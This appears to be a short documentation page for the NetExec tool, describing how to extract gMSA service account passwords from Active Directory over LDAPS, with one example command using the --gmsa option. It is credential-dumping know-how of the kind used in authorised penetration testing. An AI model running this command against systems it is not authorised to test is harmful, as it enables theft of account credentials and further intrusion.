 ```yaml
---
description: Extract gmsa credentials accounts
---
```


# Dump gMSA

Using the protocol LDAP you can extract the password of a gMSA account if you have the right.

{% hint style="warning" %}
LDAPS is required to retrieve the password, using the --gmsa LDAPS is automatically selected
{% endhint %}

```
$ nxc ldap <ip> -u <user> -p <pass> --gmsa
```
